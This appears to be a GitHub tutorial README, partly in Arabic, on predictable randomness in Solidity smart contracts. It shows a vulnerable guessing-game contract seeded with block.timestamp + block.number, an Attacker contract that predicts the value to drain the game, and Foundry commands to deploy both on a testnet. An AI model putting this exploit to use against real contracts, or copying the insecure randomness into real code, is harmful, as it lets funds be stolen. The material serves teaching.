 # Randomness-attack- 
## 1- What is Randomness?
run same code get diffirent result

## 2- what is Determinisitic System?
   * Same Input == Same Outbut
   * every node must agree on the same state
    
  ```solidity
 function test(uint256 a) public pure returns(uint256){
      return a*2;
   }          // same input same output
   
```
 ![Image](https://github.com/user-attachments/assets/266e1bd8-ba9d-4746-a793-4fb934ed254b)


## 3- why we need randomness in web3
   * Games NFT (Non Fungible Tokens  ) [ERC721](https://docs.openzeppelin.com/contracts/3.x/erc721)  Choose Winner
   * 🏛️ DAO = Decentralized Autonomous Organization choose Member to Voting
   * AirDrops
   * Validatores , committes , nodes  proof of stake (ethereum2, polkadot ,Algorand)
   * Defi Decentralized Finance
     
# Example 01
Smart contract Game to guess number and win the game

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Game {
    constructor() payable{

    }

    function play(uint256 guess) external{
        uint256 randomNumber = block.timestamp + block.number; 

        if(randomNumber == guess){
           payable(msg.sender). transfer(address(this).balance);        
        }
    }

}
```
Command to compile
```
forge compile
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key> --value <charge contract with ethereum> --broadcast
```
# 🔌 Who Provides RPC Endpoints?

There are several popular providers that offer reliable RPC endpoints for interacting with blockchain networks:

- [Infura](https://infura.io)
- [Alchemy](https://www.alchemy.com)
- [Ankr](https://www.ankr.com)
- [QuickNode](https://www.quicknode.com)

Alternatively, you can run your own Ethereum node (e.g., using Geth or Nethermind) and host your own RPC endpoint for full control and privacy.


Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```
convert from wei to ether

```
cast from-wei 1000000000000000000

```

# Scritp to deploy Game Contract 
```solidity
//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "src/Game.sol";

contract DeployGame is Script {
    function run() external{

        vm.startBroadcast() ;

       Game game = new Game{value: 0.01 ether}();
 


        vm.stopBroadcast ();

    }
}
```
> ❗ **تنبيه مهم (في حالتك):**  
> طالما عقد `Game` عنده constructor عليه `payable`، يعني محتاج تديله فلوس وقت النشر، يبقى لازم تكتب السطر كده:
>
> ```solidity
> Game game = new Game{value: 0.01 ether}();
> ```
>
> عشان تبعتله `0.01 ETH` وقت النشر.

> 💡 **ملاحظة إضافية:**  
> لو انت بتدفع `value` وقت النشر (عشان العقد بياخد فلوس في الـ `constructor`)، لازم تكتبها جوه `new Game{value: ...}` جوه السكريبت:
>
> ```solidity
> Game game = new Game{value: 0.01 ether}();
> ```
>
> مش هينفع تعتمد بس على `--value` من CLI، لازم الاتنين مع بعض.
ركز إن --broadcast لازم يكون قبل --value.




## Smart contract to attack the Game

```solidity

//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IGame{
        function play(uint256 guess) external;
    }

contract Attacker{
    IGame public game;  //store Games Address

    constructor(address GameContract) payable{
        game = IGame(GameContract);

    }

    function attack() external payable{
        uint predictNumber = block.timestamp + block.number;
        game.play(predictNumber);
    }
    receive() external payable {}

}
```
Command to compile
```
forge compile <contract path>
```
Command to deploy on sepolia
```
 forge create <contract path> --rpc-url <sepolia rpc>  --private-key <your private key>  --broadcast
```
Command to call function play

```
 cast send <contract address>  --rpc-url <your rpc> --private-key <your private key >   '<function name>'
```

Command to check Balance
```
cast balance 0xYourContractAddress --rpc-url <your rpc>
```
## script to deploy Attacker contract 

```solidity

//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "src/Attacker.sol";
contract DeployAttacker is Script{

    
    function run() external{

        vm.startBroadcast();

        Attacker attacker = new Attacker{value : 0}(0xC1685e8D090D914112afaadD29Ec5A7eB4185957);


        vm.stopBroadcast();
    }
}
```




   

